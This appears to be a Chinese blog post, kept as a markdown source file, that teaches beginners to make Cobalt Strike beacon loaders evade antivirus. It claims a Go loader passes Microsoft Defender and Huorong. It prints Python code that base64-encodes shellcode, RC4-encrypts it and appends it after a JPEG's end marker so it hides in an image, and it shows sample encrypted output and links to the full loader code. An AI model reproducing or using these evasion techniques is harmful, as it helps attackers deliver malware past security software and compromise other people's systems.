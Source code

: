 ```yaml
---
layout: about
category: about
toc: true
wrench: 2022-03-03
Researchname: CS上线木马免杀入门
desc: 「Cobalt Stike」
author: Bin4xin
permalink: /about/Cobalt-Stike-beacon-bypass-walkthrough/
---
```


木马上线老生常谈的问题就是免杀；特别是windows免杀，安全市场经过相当长一段时间的洗礼后，国内已然涌现出很多「优秀」的安全软件；

所以本篇来简单聊一下免杀入门，如何快速针对自己的需求做出一个免杀效果还不错的木马；

## 环境

- [Golang Based on Windows](https://go.dev/doc/install)
- [Python Based on Window/Linux/macOS](https://www.python.org/downloads/)
  - pip/pip3
- [CS-Loader](https://github.com/Gality369/CS-Loader.git)

原仓库：

```
origin	https://github.com/Gality369/CS-Loader.git (fetch)
origin	https://github.com/Gality369/CS-Loader.git (push)
```

## 实现

详细过程可以参考[CS-Loader仓库教程](https://github.com/Gality369/CS-Loader/blob/master/README.md#%E4%BD%BF%E7%94%A8)

不做搬运

### 效果

golang版成功通过微软Defender/火绒免杀；

- 火绒

![2022-02-23-1.05.50.png](https://image.yjs2635.xyz/images/2022/02/24/2022-02-23-1.05.50.png)

- 微软Defender

![2022-02-23-1.28.27.png](https://image.yjs2635.xyz/images/2022/02/24/2022-02-23-1.28.27.png)

## 思路

![2022-03-03-10.31.21.png](https://image.yjs2635.xyz/images/2022/03/03/2022-03-03-10.31.21.png)

### 梳理

建议自己尝试一下过程，可以参考上面的README，或者我这里传了一份[梳理过后的代码](https://github.com/Bin4xin/bigger-than-bigger/blob/master/Bypass-antivirus/Cobalt-Stike/golang/CS-Loader.go)

下面看一下tupianshellcode的加密生成方式

### 3x01 图片shellcode生成

```python
#base64encode
baseStr = base64.b64encode(shellcode)
#RC4 + base64encode
payload = rc4(baseStr, key)

with open(imgName, 'rb') as f:
    img = f.read()
    fileend = img[-2:]
    if(ord(fileend[0])!=255 and ord(fileend[0])!=217):
        if(img.count(chr(255)+chr(217))>0):# 不以ffd9结尾，但是内容中包含有ffd9，说明图片有误 或者已经在ffd9后追加过内容了 
            print("Please change the img.")
            exit(0)
        else:
            payload = img + chr(255)+chr(217) + payload
            print("Abnormal end of file, auto add \xff\xd9")
    #以上判断图片的正确性以及进行图片矫正
    else:
        payload = img + payload
        #插入的图片插入经过rc4加密的base64(shellcode)，往下看rc4
    with open("shellcode_"+imgName,'wb') as f1:
        f1.write(payload)
print("Payload has write to shellcode_"+imgName)
```

rc4：

```python
# rc4接收主方法传过来的 (b64encode(shellcode),rc4加密key)
def rc4(text, key):
  key = hashlib.md5(key).hexdigest()
  # Use md5(key) to get 32-bit key instead raw key
  result = ''
  key_len = len(key)
  #1. init S-box
  box = list(range(256))#put 0-255 into S-box
  j = 0
  for i in range(256):#shuffle elements in S-box according to key
      j = (j + box[i] + ord(key[i%key_len]))%256
      #取模
      box[i],box[j] = box[j],box[i]#swap elements
  i = j = 0
  for element in text:
      i = (i+1)%256
      j = (j+box[i])%256
      box[i],box[j] = box[j],box[i]
      k = chr(ord(element) ^ box[(box[i]+box[j])%256])
      result += k
  # bla bla bla..    
  result = base64.b64encode(result)
  return result
```
加密效果：

```bash
# python generator.py
ADdk943ZPviJWuFP5HO6HsUbbf3/UibLBKbjBQNvx314kU2L8vjUSpdIwV/cx20/2W0Skzghdf4oYRZfF1/0P+xhSgYqRXESzhXpqoLHXiVzDyezyOp9p03A
s6I3lXCP9w9r+CBG5VQIg3sCak05aAG1rRAoAD8L7FbzFQCbnhn+BgKe4A7J95vKyGzmFBuNiQoBqOEbNKNuF6oaXbsDTw6s9ymflG7yna8Os9zOOS4JSFZ5
Ds4slcQ6pFHZK16OERLSN9x8hdjlLVKUKqTmPhl1Y3hepr2nF5G/NkS6esZTEsEJHRPcXpQineKVL/T5uxoliiLOeZdjlrGgnDGrgMC5N8O66DXyK3bGdYpV
Mrzj9iQzCwdXn0PdquAhAZynjtos1c6S4De9EVxbJaes6k/QeCjrkD234qPTt5c4C8zm/bhrZ0ghVAAl4LPwiPZsu5bYONMeYApBJ81IBec46RSFFN5LWzdh
JEutJDx9w/AyYS1iphRShAczz6GmeVDaXeY83LhzKNKMlXNJfVv57DFDX4MiKiZq4SO5roUkUQ1mTYCG3LzdTFDhC7JQdwML2WBwubnPt8kCs6woxC0P2y5e
An77KivDovGsB3INBxqErgonfKWPgcCJVixYBfRP7FxfBYoAjw9xiiLuwDOxQaYAKGAfPI/9ctphRPWa8ZPzaJ7fpF4dO8UERVh0/IYlgeJx9hLVvEkjf9O0
y1O688E1Giuo+D8pgdZo4WnsTWNBfU+woqo/34ZzxHV/3xKFlKljBD0+XoyKTLYmUju6pwv5TEfBbiMd+Hrs5Oh9s0fkKOyybuhrCEX8zrpMHcNhng996olY
zcKNxCoZzDuFFvDwGkX3vXNN+GWTgKZc6lnp+hrX2Z0ZDaivLVyZU2NCS6YBq7BjEgntO2oYWlRiUXUKejHysunVUVE4LPtiO6nAJXTELd3SAXG8G4Sy5RjD
K3c0GaAjvaeJ0//TpFecPPvMOJCukvvwoUTziex5cQ8Q+C6TwQKlO0zgHdXHALfkkSroBBGmqGZjqdCgaTTKHKOoAC9STz83g6jsI//Jpkjfwc3Avp75u1/4
dswHjJk73Ncl9VMXxvMAVFqHzFM1+zuDQo74fw1DLwwXMLDoBuBgD5kf5emmhgDtFRDO5FofOlhQ4L06vNgGJw7s1D1b76YWmY6xv5Uk1IvTYqn8cb4bFzHr
QgwuhPcBpITJ7Q7Wu7HZhlLkfKLor7kso4fn0gDUv258Q1MDelXWABmdlkzYSKOUOnsRUTi2hSI65Wy9GgL6IAyMx6vo/iwuKlYlkBafqPjFNY2O3LhVgTYr
xmC8y7oXHnBR23wFNrNXlvtct/B8xIL8hiPA4rVcpK2ouPacFZYbdjS74JUdHwKMv5lAC3UpmoevzCQzcze0R03R5p6ZHgvjLxuqKFBkKSgHrAbivLnMEPDX
zK3UeKSvG2ftsZiXPCPMZTjD0jBti4ubHc++RzHVC+Zq6ioj3nXjifF2FoJcnPGcdKkYHZBZlL6X5ptXxsT2FFtUTgZYD+iBnS4UlmTdK/oKNsds+ma8E1iB
v4K04P83bSIgvunvA/xFX3N6u0m5qevZemY+RTsynSjPrg==
#看起来像base64，实际上无法反编码

$ python 1.py |base64 -d
7d��>�Z�O�s����R&���o�}x�M����J�H�_��m?�m�8!u�(a__�?�aJ*Eq�骂�^%s'���}�M���7�p��k� F��{jM9h��(?
...

```

实际上，我们在做渗透的时候也可以发现这样类似的加密算法，代码我也放到了[Bigger仓库::generator.py](https://github.com/Bin4xin/bigger-than-bigger/blob/master/Bypass-antivirus/Cobalt-Stike/golang/generator.py)，当然具体问题具体分析，权当抛砖引玉；

以上。